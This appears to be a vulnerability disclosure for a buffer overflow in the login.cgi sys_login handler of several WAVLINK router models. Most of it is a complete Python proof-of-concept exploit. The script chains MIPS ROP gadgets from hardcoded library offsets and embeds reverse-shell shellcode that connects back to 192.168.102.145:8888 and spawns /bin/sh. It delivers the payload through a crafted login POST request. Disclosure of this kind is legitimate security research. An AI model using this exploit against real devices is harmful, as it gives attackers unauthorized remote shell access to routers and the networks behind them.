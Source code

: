 # Information



**Vendor of the products:** WAVLINK

**Vendor's website:** [Home and Business Networking Equipment &Wireless Audio and Video Transmission Equipment -wavlink.com](https://www.wavlink.com/en_us/index.html)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** WL-WN532A3/WL-WN576K1/QUANTUM D3G/WL-WN530HG3/QUANTUM D2G/WL-WN530G3A

**Affected firmware version:** <=V1410_240222

**Firmware download address:** [download]([Fm 532a3 - WAVLINK ROUTER Docs](https://docs.wavlink.xyz/Firmware/fm-532a3/))

# Overview

A buffer overflow vulnerability has been found in the WavLink routers WL-WN532A3/WL-WN576K1/QUANTUM D3G/WL-WN530HG3/QUANTUM D2G/WL-WN530G3A. An attacker can send a specific HTTP POST packet to the sys_login function of login.cgi, which can cause a buffer overflow and even unauthorized arbitrary command execution.



# Vulnerability details

There is an overflow here that may be exploitable

WL-WN532A3

![image-20250523155919239](1/image-20250523155919239.png)

WL-WN576K1

![image-20250523160024500](1/image-20250523160024500.png)

QUANTUM D3G/WL-WN530HG3/QUANTUM D2G/WL-WN530G3A

![image-20250523160047428](1/image-20250523160047428.png)



# POC

```py
import requests
from gt import *
import sys
con("mips")

libwebutil_base=0x77fa9000  
libc_base =  0x77eff000  



system = libc_base + 0x598E0
pp = libc_base + 0xE8B8 #a0
pp1 = libc_base + 0x59344 #v0
pp2 = libc_base + 0x0599D8 #a1
pp3 = libc_base + 0x59934 #a2
do_system = libwebutil_base + 0x6798 
gp = libwebutil_base + 0x37060 + 0x7f90
payload = b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaei"


shellcode = asm('''
    slti $a0, $zero, 0xFFFF
    li $v0, 4006
    syscall 0x42424

    li $t4, 0xFFFFFFFD
    not $a0, $t4
    li $v0, 4006
    syscall 0x42424
 
    li $t4, 0xFFFFFFFD
    not $a0, $t4
    not $a1, $t4
    slti $a2, $zero, 0xFFFF
    li $v0, 4183
    syscall 0x42424
 
    andi $a0, $v0, 0xFFFF
    li $v0, 4041
    syscall 0x42424
    li $v0, 4041
    syscall 0x42424
 
    lui $a1, 0xB821 # Port: 8888
    ori $a1, 0xFF01
    addi $a1, $a1, 0x0101
    sw $a1, -8($sp)
 
    li $a1, 0x9166a8c0 # IP: 192.168.102.145
    sw $a1, -4($sp)
    addi $a1, $sp, -8
 
    li $t4, 0xFFFFFFEF
    not $a2, $t4
    li $v0, 4170
    syscall 0x42424
 
    lui $t0, 0x6962
    ori $t0, $t0,0x2f2f
    sw $t0, -20($sp)
 
    lui $t0, 0x6873
    ori $t0, 0x2f6e
    sw $t0, -16($sp)
 
    slti $a3, $zero, 0xFFFF
    sw $a3, -12($sp)
    sw $a3, -4($sp)
 
    addi $a0, $sp, -20
    addi $t0, $sp, -20
    sw $t0, -8($sp)
    addi $a1, $sp, -8
 
    addiu $sp, $sp, -20
 
    slti $a2, $zero, 0xFFFF
    li $v0, 4011
    syscall 0x42424
''')


payload+=p32(system)+b"b"*8
# payload+=p32(rop)+b"c"*40+p32(gp)+cmd
payload+= p32(pp) +b"c"*0x2c + p32(0x7fff6270) 
payload += shellcode

Head = {'Referer': 'wifi.wavlink.com'}
url = "http://192.168.102.143/cgi-bin/login.cgi"
Data = {"page":"login","login_page":payload,"newUI":"1","username":"admin","langChange":"0","password":"9da20c4ae944c8e1240deda4a50399ca","ipaddr":"192.168.102.1","homepage":"main.shtml","hostname":"192.168.102.143","key":"M89112664","lang_select":"0"}

response = requests.post(url,headers=Head,data=Data)

print(response.text)
print(response)
```

![image-20250523160248943](1/image-20250523160248943.png)